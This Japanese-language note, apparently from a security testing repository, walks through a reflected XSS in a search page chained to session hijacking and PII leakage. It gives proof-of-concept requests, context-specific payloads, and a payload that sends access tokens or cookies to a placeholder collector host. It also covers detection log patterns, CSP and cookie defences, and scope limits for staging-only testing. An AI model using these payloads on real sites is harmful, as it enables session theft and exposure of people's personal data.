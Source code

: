 02_chains/xss-ref-sess-pii.md

# Reflected XSSでセッション乗っ取りしPIIを流出させる
**Tags:** family:xss / variant:ref / engine:- / pivot:sess / impact:pii  
**Refs:** ASVS（Encoding/Sanitization・CSP）・WSTG（Reflected XSS）・MITRE ATT&CK（T1539・T1550.004）・PortSwigger WSA（Reflected XSS）・PayloadsAllTheThings（XSS Injection）・HackTricks（XSS）  
**Trace:** created: 2025-10-07 / last-review: 2025-10-07 / owner: you

## 概要
検索機能（Search）でユーザ入力がそのままHTMLに反映される反射型XSS（Reflected XSS）を起点に、被害者ブラウザで任意JSを実行し、セッションクッキーやBearerトークン（localStorage等）を窃取、あるいは被害者権限でPIIエンドポイントへ非対話リクエストを送らせ、個人情報（PII）を攻撃者へ送出する攻撃連鎖。

## 前提・境界（Non-Destructive）
- 対象は検証用/ステージング、テスト用アカウントのみ。大量送信・DoS・第三者配布は禁止。  
- PII/トークンは表示例では必ず伏せ字（`****`）。実データの外部送信は禁止（自己ホストのダミー収集エンドポイント等で代替）。  
- ブラウザ/拡張機能の自動保護（CSP/拡張）を迂回する試験は実施しない。  

## 入口（Initial Access）
- 反射点：`/search?q=<payload>` が結果ページに無エスケープで混入。  
- 最小PoC（無害確認）：  
```
GET /search?q=%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: target.example.com
```
- 文脈ごとの調整（例）：属性内→`"><svg onload=alert(1)>`、JS文字列内→`';alert(1);//`。  

## 横展開（Pivot / Privilege Escalation）
- セッション奪取（cookieがHttpOnlyでない場合）：`document.cookie` を読み取り、攻撃者管理の収集エンドポイントへ送信（ステージング限定）。  
- トークン窃取：SPAで`localStorage.access_token`等を参照できる場合は同様に送信。  
- セッションライディング：cookieがHttpOnlyでも、被害者権限で機能APIに`fetch()`を送らせPII（`/api/v1/users/me`,`/api/v1/export/csv`等）を取得→攻撃者へ送信。  
- 管理系到達：権限不備があれば`/admin/*`参照やアカウント横取り（password reset CSRF連携）へ拡大。  

## 到達点（Impact）
- 被害者アカウントの完全ななりすまし（MFA迂回の可能性）。  
- 顧客名・住所・電話・メール等のPII、注文履歴、請求書CSVの流出。  
- ビジネス側：不正注文・ポイント詐取・情報漏えい報告対応コスト増。  

## 検知・証跡（Detection & Evidence）
- アプリ/リバースプロキシログ：`/search` への不審クエリ（`<script`,`onerror=`,`javascript:` 等）。  
- 監査ログ：被害者セッションIDでの短時間多量アクセス、IP/UA不一致。  
- CSPレポート（`Content-Security-Policy-Report-Only` + `report-to`）：違反レポートに`blocked-uri`/`script-sample`が記録。  
- 例（JST）：  
  - `2025-10-07T14:21:03+09:00 request_id=abc123 path=/search q="%3Csvg%20onload%3Dfetch(...)" user=guest ip=****`  
  - `2025-10-07T14:21:05+09:00 request_id=def456 path=/api/v1/export/csv user=alice session=**** size=524288`  

## 是正・防御（Fix / Defense）
- **出力エンコーディング**：テンプレートの自動エスケープを強制。HTML/属性/JS/URLの**文脈別（contextual）**エンコーディングを実装（ASVS v5.0.0-1.3.x）。  
- **入力検証**：許可リスト（allowlist）＋正規化後の検証。危険シンボルの除去に依存しない（ASVS v5.0.0-1.1.x）。  
- **DOM XSS対策**：`innerHTML`直書きを避け、`textContent`/`setAttribute`等を使用（ASVS v5.0.0-1.5.x）。  
- **CSP**：`default-src 'none'; base-uri 'none'; object-src 'none'; script-src 'self' 'nonce-<runtime>'; connect-src 'self'; frame-ancestors 'none'` をベースに、ハッシュ/ノンスでインラインを許可（ASVS v5.0.0-3.4.6）。  
- **セッション保護**：`Set-Cookie: HttpOnly; Secure; SameSite=Lax/Strict`、長寿命トークンをクッキーに集約（ASVS v5.0.0-2.1.x）。  
- **認可**：機能/APIごとの権限確認を強制し、被害者権限でのデータ横取りを抑止（ASVS v5.0.0-4.x）。  
- **監視**：CSP Report-To、WAFのXSSシグネチャ、PIIエクスポートの行動分析検知（ASVS v5.0.0-10.x）。  

## バリエーション
- 反射文脈：プレーンHTML、属性、JS文字列、URLコンテキスト、テンプレート（CSTI連動）。  
- フィルタ迂回：Unicode正規化、HTMLエンティティ二重化、イベントハンドラ/タグ多様化、`data:`/`blob:`等。  
- 配信面：エラーページ、検索結果、プレビュー、パンくず/タイトル、JSONの`callback`（JSONP）。  

## 再現手順（Minimal Steps）
1) テストユーザでログインし、`/search?q=` の反射点を特定。  
2) 最小PoCでJS実行を確認（例：`<script>alert(1)</script>`）。  
3) **非破壊**な挙動確認：`fetch('/whoami')`等の自己参照APIで被害者権限実行を検証。  
4) （ステージングのみ）`HttpOnly`無効や`localStorage`にトークンがある場合、マスクした形で収集先に送信テスト：  
```
GET /search?q=%3Cimg%20src%3Dx%20onerror%3Dfetch('https://collector.example.net/log?tok='%2bencodeURIComponent((localStorage.access_token||document.cookie||'none')))%3E
```
5) `export/csv`等のPIIエンドポイントに被害者権限でアクセスさせ、レスポンスサイズやHTTP 200を証跡として取得（外部送信は禁止）。  

## 参照
1. OWASP ASVS 5.0.0（公式PDF。Encoding/Sanitization, CSP, Session等の要件群を参照）  
   https://github.com/OWASP/ASVS/releases/download/v5.0.0/OWASP_Application_Security_Verification_Standard_5.0.0_en.pdf
2. OWASP WSTG — Testing for Reflected Cross-Site Scripting  
   https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting
3. PortSwigger Web Security Academy — Reflected XSS  
   https://portswigger.net/web-security/cross-site-scripting/reflected
4. PayloadsAllTheThings — XSS Injection  
   https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
5. HackTricks — XSS (Cross Site Scripting)  
   https://angelica.gitbook.io/hacktricks/pentesting-web/xss-cross-site-scripting
6. MITRE ATT&CK — T1539 Steal Web Session Cookie  
   https://attack.mitre.org/techniques/T1539/
7. MITRE ATT&CK — T1550.004 Use Alternate Authentication Material: Web Session Cookie  
   https://attack.mitre.org/techniques/T1550/004/
